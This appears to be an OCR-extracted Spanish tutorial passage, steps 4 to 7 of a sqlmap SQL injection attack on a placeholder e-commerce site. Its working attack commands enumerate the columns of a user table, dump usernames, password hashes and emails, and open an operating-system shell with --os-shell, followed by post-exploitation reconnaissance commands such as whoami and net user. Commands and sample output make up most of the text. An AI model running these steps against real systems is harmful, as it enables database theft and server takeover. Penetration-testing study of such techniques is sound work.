 text

---

### **Paso 4: Obtener Columnas de Tabla Específica**
sqlmap -u "http://example-ecommerce.com/profile.aspx?id=1"
--cookie="SESSIONID=abc123; AUTH=xyz789"
-D ecommerce_db -T user_accounts --columns

text

**Ejemplo de salida:**
[] id (int)
[] username (varchar)
[] password (varchar)
[] email (varchar)
[*] role (varchar)

text

---

### **Paso 5: Extraer Datos de la Tabla**
sqlmap -u "http://example-ecommerce.com/profile.aspx?id=1"
--cookie="SESSIONID=abc123; AUTH=xyz789"
-D ecommerce_db -T user_accounts --dump

text

**Ejemplo de datos extraídos:**
+----+----------+------------------+-------------------+-------+
| id | username | password | email | role |
+----+----------+------------------+-------------------+-------+
| 1 | admin | 5f4dcc3b5aa765d6 | admin@example.com | admin |
| 2 | johndoe | 098f6bcd4621d373 | john@example.com | user |
+----+----------+------------------+-------------------+-------+

text

---

### **Paso 6: Obtener Shell del Sistema Operativo**
sqlmap -u "http://example-ecommerce.com/profile.aspx?id=1"
--cookie="SESSIONID=abc123; AUTH=xyz789" --os-shell

text

**Responder "Y" a:** `optimize value(s) for DBMS delay responses`

---

### **Paso 7: Comandos Post-Explotación en OS Shell**
Una vez dentro del shell:
hostname # Nombre del servidor
ipconfig # Configuración de red
whoami # Usuario actual
dir C:\ # Listar directorio raíz
net user # Usuarios del sistema
systeminfo # Información del sistema


[^1]: image.jpg